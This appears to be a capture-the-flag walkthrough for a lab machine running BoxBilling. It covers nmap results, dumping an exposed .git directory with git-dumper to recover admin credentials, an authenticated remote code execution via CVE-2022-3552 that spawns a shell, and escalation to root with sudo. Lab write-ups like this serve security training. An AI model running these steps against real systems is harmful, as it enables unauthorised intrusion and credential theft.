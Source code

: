 

## System Info
- **Hostname:** bullybox.local  
- **OS/Tech:** Ubuntu, PHP, BoxBilling 4.22.1.5  

---

## Credentials
- **Admin Panel:**  
  - **Username:** admin  
  - **Password:** Playing-Unstylish7-Provided

---

## Service Enumeration

**Nmap scan results:**
```bash
22/tcp open  ssh   OpenSSH 8.9p1 Ubuntu 3ubuntu0.1
80/tcp open  http  Apache httpd 2.4.52 (Ubuntu)
```

- **HTTP (80):** BoxBilling panel  
- **SSH (22):** OpenSSH (no initial access)

---

## Initial Exploitation

1. **Leak discovery**  
   - Fuzzing found a public `/.git` directory.  
   - Dump it with `git-dumper`:
     ```bash
     git clone https://github.com/arthaud/git-dumper.git
     python3 git-dumper.py http://bullybox.local/.git/ ./repo
     ```
   - Extract `config.php` in `repo` to find DB credentials:
     ```php
     'user'     => 'admin',
     'password' => 'Playing-Unstylish7-Provided',
     ```

2. **Admin login**  
   - Visit `http://bullybox.local/admin` or the BoxBilling panel.  
   - Log in as `admin` with `Playing-Unstylish7-Provided`.

3. **RCE via CVE-2022-3552**  
   - BoxBilling 4.22.1.5 has an authenticated RCE (CVE-2022-3552).  
   - Use the PoC from the dumped repo under `repo/exploits/CVE-2022-3552.php`.  
   - Upload/execute it via the admin interface to spawn a shell.

4. **Shell user**: `yuki`  
   ```bash
   whoami   # yuki
   groups   # yuki, sudo
   ```

---

##  Privilege Escalation

As `yuki` (in the `sudo` group):
```bash
sudo -i
```
root login shell.

